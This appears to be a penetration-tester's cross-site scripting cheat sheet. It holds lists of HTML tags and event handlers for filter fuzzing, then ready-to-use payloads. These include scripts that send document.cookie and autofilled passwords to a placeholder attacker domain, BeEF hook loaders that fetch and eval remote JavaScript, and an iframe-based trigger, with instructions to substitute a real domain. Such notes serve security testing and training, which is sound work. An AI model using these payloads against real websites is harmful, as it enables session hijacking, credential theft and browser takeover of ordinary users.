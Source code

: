 # Cross-Site Scripting

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

<details>

<summary>All tags</summary>

```
a
a2
abbr
acronym
address
animate
animatemotion
animatetransform
applet
area
article
aside
audio
audio2
b
bdi
bdo
big
blink
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
content
custom tags
data
datalist
dd
del
details
dfn
dialog
dir
div
dl
dt
element
em
embed
fieldset
figcaption
figure
font
footer
form
frame
frameset
h1
head
header
hgroup
hr
html
i
iframe
iframe2
image
image2
image3
img
img2
input
input2
input3
input4
ins
kbd
keygen
label
legend
li
link
listing
main
map
mark
marquee
menu
menuitem
meta
meter
multicol
nav
nextid
nobr
noembed
noframes
noscript
object
ol
optgroup
option
output
p
param
picture
plaintext
pre
progress
q
rb
rp
rt
rtc
ruby
s
samp
script
section
select
set
shadow
slot
small
source
spacer
span
strike
strong
style
sub
summary
sup
svg
table
tbody
td
template
textarea
tfoot
th
thead
time
title
tr
track
tt
u
ul
var
video
video2
wbr
xmp
```

</details>

<details>

<summary>All events</summary>

```
onafterprint
onafterscriptexecute
onanimationcancel
onanimationend
onanimationiteration
onanimationstart
onauxclick
onbeforecopy
onbeforecut
onbeforeinput
onbeforeprint
onbeforescriptexecute
onbeforetoggle
onbeforeunload
onbegin
onblur
onbounce
oncanplay
oncanplaythrough
onchange
onclick
onclose
oncontextmenu
oncopy
oncuechange
oncut
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
ondrop
ondurationchange
onend
onended
onerror
onfinish
onfocus
onfocusin
onfocusout
onformdata
onfullscreenchange
onhashchange
oninput
oninvalid
onkeydown
onkeypress
onkeyup
onload
onloadeddata
onloadedmetadata
onloadstart
onmessage
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
onmousewheel
onmozfullscreenchange
onpagehide
onpageshow
onpaste
onpause
onplay
onplaying
onpointerdown
onpointerenter
onpointerleave
onpointermove
onpointerout
onpointerover
onpointerrawupdate
onpointerup
onpopstate
onprogress
onratechange
onrepeat
onreset
onresize
onscroll
onscrollend
onsearch
onseeked
onseeking
onselect
onselectionchange
onselectstart
onshow
onstart
onsubmit
onsuspend
ontimeupdate
ontoggle
ontoggle(popover)
ontouchend
ontouchmove
ontouchstart
ontransitioncancel
ontransitionend
ontransitionrun
ontransitionstart
onunhandledrejection
onunload
onvolumechange
onwebkitanimationend
onwebkitanimationiteration
onwebkitanimationstart
onwebkittransitionend
onwheel
```

</details>

## HTML Context

```
<script>alert(document.cookie)</script>
```

```
<img src=x onerror=alert(document.cookie)>
```

## XSS Exploit

### Steal Cookie

Replace `evil-website.com` in the code with the actual domain

```
<script>
fetch("https://evil-website.com", {
  method: "POST",
  mode: "no-cors",
  body: JSON.stringify({ cookie: document.cookie }),
});
</script>
```

### Steal Password

* Only for users who have enabled autofill passwords
* Replace `evil-website.com` in the code with the actual domain

```
<input name="username" id="username" />
<input
    name="password"
    id="password"
    type="password"
    onchange="if(this.value.length); fetch('https://evil-website.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

### Hook Browser (beef)

```
<script src="http://evil-website.com:3000/hook.js"></script>
```

```
<body
    onload="fetch('http://evil-website.com:3000/hook.js')
        .then(response => response.text())
        .then(script => eval(script))"
        .catch(error => console.error('Error:', error));
>
```

```
<body
    onload="
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://evil-website.com:3000/hook.js', true);
    xhr.onreadystatechange = function () {
        if (xhr.readyState == 4 && xhr.status == 200)
            eval(xhr.responseText);
    };
    xhr.send();
"
>
```

## Experiment

### `onresize` event (GET)

* You need to start an HTTP service for the victim to access
* Replace `vulnerable-website.com` in the code with the actual domain
* Replace `<xss-parameter>` in the code with the actual parameter.
* Replace `<%3Cbody%20onresize=%22print()%22%3E>` in the code with the actual payload.
  * The decoded value is x `<body onresize="print()">`

```
<br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br />

<iframe
    src="https://vulnerable-website.com/?<xss-parameter>=<%3Cbody%20onresize=%22print()%22%3E>"
    onload="this.style.width='0'; this.style.height='0'"
></iframe>
```
